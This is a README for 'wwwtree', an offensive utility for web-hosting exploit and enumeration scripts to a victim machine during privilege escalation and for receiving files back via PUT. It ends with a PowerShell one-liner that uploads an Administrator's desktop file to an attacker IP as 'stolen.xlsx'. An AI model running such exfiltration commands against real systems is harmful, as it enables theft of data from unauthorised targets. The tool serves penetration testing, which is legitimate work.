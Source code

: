 # wwwtree
[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.x-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">
[![License](https://img.shields.io/badge/License-MIT-red.svg)](https://github.com/t3l3machus/wwwtree/blob/main/LICENSE)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

## Purpose
A utility for quickly and easily locating, web hosting and transferring resources (e.g., exploits/enumeration scripts) from your filesystem to a victim machine during privilege escalation.

### Preview
![image](https://user-images.githubusercontent.com/75489922/204158750-90ad250c-7787-4fde-92c3-99dae65e5444.png)

## Description
wwwtree does the following:
 - hosts a specified root directory and prints the contents in a tree-like format. Every file is translated to it's equivalent server URL path so you can quickly copy it and use a web client to transfer it to the victim.
 - Filters out files that contain specific substrings based on user provided keywords (use `-k` to parse comma seperated values). Handy for quickly locating resources saved in deep and populated directory structures.
 - Automatically hides from the output files and folders that are most likely not in the scope of enumeration / exploitation (e.g., txt, yml, docx files or .git directories). You can control this behaviour by editing the list variables `hide_extensions` and `hide_dirs` in the source.
 - The wwwtree python http server handler supports PUT requests and by default saves files in `/tmp` (you can change that in the source). You can use it to transfer files from the victim to the attacker machine.


## Installation & Usage
```
git clone https://github.com/t3l3machus/wwwtree
cd ./wwwtree
pip3 install -r requirements.txt
chmod +x wwwtree.py

wwwtree.py [-h] -r ROOT_PATH -i INTERFACE [-l LEVEL] [-p PORT] [-k KEYWORDS] [-A] [-q]
```

### PUT Requests
I've noticed that curl on Windows seems to work improperly when trying to transfer large files. Powershell's `Invoke-WebRequest` works much better:
```
powershell -c "invoke-webrequest -method PUT -headers @{'Content-Type'='application/vnd.openxmlformats-officedocument.spreadsheetml.sheet'} -usebasicparsing -uri http://192.168.111.135/stolen.xlsx -body (get-content C:\Users\Administrator\Desktop\some_file.xlsx)"
```

